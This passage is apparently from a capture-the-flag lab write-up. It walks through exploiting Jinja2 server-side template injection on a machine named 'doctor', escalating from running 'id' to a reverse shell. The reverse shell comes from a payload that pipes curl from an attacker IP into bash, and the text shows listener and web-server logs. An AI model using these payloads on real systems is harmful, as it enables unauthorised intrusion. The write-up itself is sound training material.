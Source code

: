 Seems like our Jinja2 payload worked, which means that we can try for code-execution next.

## Remote Code execution

Let us try following Jinja2 payload for RCE:

```python
{{ "{{ config.__class__.__init__.__globals__['os'].popen('id').read()config.items() " }}}}
```

As a response, we get following data:

```xml
	<?xml version="1.0" encoding="UTF-8" ?>
	<rss version="2.0">
	<channel>
 	<title>Archive</title>
 	<item><title>uid=1001(web) gid=1001(web) groups=1001(web),4(adm)
</title></item>

			</channel>
			
```

Seems like we are able to execute code on the system successfully. Let us try to get a shell next.

### Initial shell

For this we use following payload:

```python
{{ "{{ config.__class__.__init__.__globals__['os'].popen('curl 10.10.14.5/s.sh|bash').read() " }}}}
```

`s.sh` is a bash-reverse-shell payload.

We then start our http-server and send the payload.

```bash
root@darkness:~# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.209 - - [13/Jan/2021 14:34:04] "GET /s.sh HTTP/1.1" 200 -
```

We successfully get a request to our http-server and a response to our listener.

```bash
root@darkness:~# nc -lvnp 443
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.209.
Ncat: Connection from 10.10.10.209:53216.
bash: cannot set terminal process group (839): Inappropriate ioctl for device
bash: no job control in this shell
web@doctor:~$
```
